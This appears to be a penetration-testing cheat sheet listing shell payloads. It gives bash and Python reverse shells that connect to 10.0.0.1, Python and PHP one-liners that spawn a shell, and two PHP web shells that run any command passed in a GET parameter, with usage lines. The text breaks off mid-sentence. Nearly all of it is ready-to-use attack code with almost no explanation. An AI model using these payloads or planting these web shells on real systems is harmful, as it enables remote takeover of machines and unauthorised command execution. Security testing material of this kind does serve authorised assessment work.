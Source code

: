 ## Bash Reverse Shell:

```
bash -i >& /dev/tcp/<ip-address>/<port> 0>&1
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# Programming Language:
## Python:
```
import os; os.system("/bin/sh")
```
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
```
import os; os.system("/bin/bash")
```
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## Python Reverse Shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP:
```
exec("sh -i");
```

## PHP Webshell:
```
<?php
  $command = $_GET['cmd'];
  echo system($command);
?>
```
usage examples
```
url/webshell.php?cmd=ls
```

## PHP Webshell:
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files
```
<?php
    if ($_SERVER['REMOTE_HOST'] === "FIXME") { // Set your IP address here
        if(isset($_REQUEST['cmd'])){
            $cmd = ($_REQUEST['cmd']);
            echo "<pre>\n";
            system($cmd);
            echo "</pre>";
        }
    }
?>
```
Once the shell is uploaded (with a random name), you can execute operating system commands by passing them in the cmd GET parameter: